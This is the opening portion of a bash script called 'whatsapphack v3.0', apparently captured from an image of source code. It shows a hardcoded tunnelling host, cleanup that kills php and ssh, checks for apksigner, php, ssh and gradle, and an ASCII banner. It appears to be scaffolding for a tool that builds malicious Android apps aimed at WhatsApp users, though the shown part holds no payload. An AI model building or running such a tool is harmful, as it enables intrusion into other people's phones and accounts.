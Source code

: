 #!/bin/bash
# whatsapphack v3.0
# Github: https://github.com/cyberlawd/whatsapphack
# Author: @Kasie_CyberLawd

host="159.89.214.31" #Serveo.net

trap 'printf "\n";stop' 2

stop() {

if [[ $checkphp == *'php'* ]]; then
killall -2 php > /dev/null 2>&1
fi
if [[ $checkssh == *'ssh'* ]]; then
killall -2 ssh > /dev/null 2>&1
fi
exit 1


}

dependencies() {


command -v apksigner > /dev/null 2>&1 || { echo >&2 "I require apksigner but it's not installed. Install it. Aborting."; 
exit 1; }
command -v php > /dev/null 2>&1 || { echo >&2 "I require php but it's not installed. Install it. Aborting."; exit 1; }
command -v ssh > /dev/null 2>&1 || { echo >&2 "I require ssh but it's not installed. Install it. Aborting."; 
exit 1; }

command -v gradle > /dev/null 2>&1 || { echo >&2 "I require gradle but it's not installed. Install it. Aborting."; 
exit 1; }

}

banner() {


printf "\e[1;77m__        ___           _                         _   _            _   \n" 
printf " \ \      / / |__   __ _| |_ ___  __ _ _ __  _ __ | | | | __ _  ___| | __ \n"
printf "  \ \ /\ / /| '_ \ / _  | __/ __|/ _  | '_ \| '_ \| |_| |/ _  |/ __| |/ / \n"
printf "   \ V  V / | | | | (_| | |_\__ \ (_| | |_) | |_) |  _  | (_| | (__|   < \n"
printf "    \_/\_/  |_| |_|\__,_|\__|___/\__,_| .__/| .__/|_| |_|\__,_|\___|_|\_\   v3.0\e[0m\n"
printf "\n"
printf "     \e[1;92mAuthor: https://github.com/cyberlawd/whatsapphack\n\e[0m"
printf "\n"
}

